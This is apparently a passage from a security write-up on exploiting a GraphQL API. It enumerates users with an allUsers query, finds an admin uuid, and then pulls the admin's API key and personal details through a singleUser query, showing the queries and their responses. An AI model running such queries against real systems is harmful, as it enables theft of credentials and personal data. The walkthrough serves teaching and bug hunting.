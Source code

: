 A query was created using the above representation to fetch all of the users.

<pre class="language-graphql" data-title="query to fetch allUsers" data-line-numbers><code class="lang-graphql"><strong>{
</strong>  allUsers {
    edges {
      node {
        uuid
        username
        isAdmin
      }
    }
  }
}

</code></pre>

The query above revealed that the admin user was `jimcarry` with `uuid:10`.

```json
{
  "node": {
     "uuid": "10",
     "username": "jimcarry",
     "isAdmin": true
   }
 }
```

We can also use the `allPosts` query to get information about the users.

```graphql
{ REDACTED TRY YOUR SELF }
```

now we can retrieve the admin user api key with the admin uuid by using the

```graphql
{
  singleUser(user: 10) {
    apiKey
    name
    surname
    dateOfBirth
  }
}
```

We can now obtain the admin user API key using the admin uuid.

```json
{
  "data": {
    "singleUser": {
      "apiKey": "AS7RA968GDBVDQIYILDSY7",
      "name": "Mika",
      "surname": "Hakkinen",
      "dateOfBirth": "01/09/1982"
    }
  }
}
```

By using introspection to understand the schema of a GraphQL API, researchers/devs can easily hunt bugs and identify discrepancies that may indicate a bug.



{% @mailchimp/mailchimpSubscribe %}
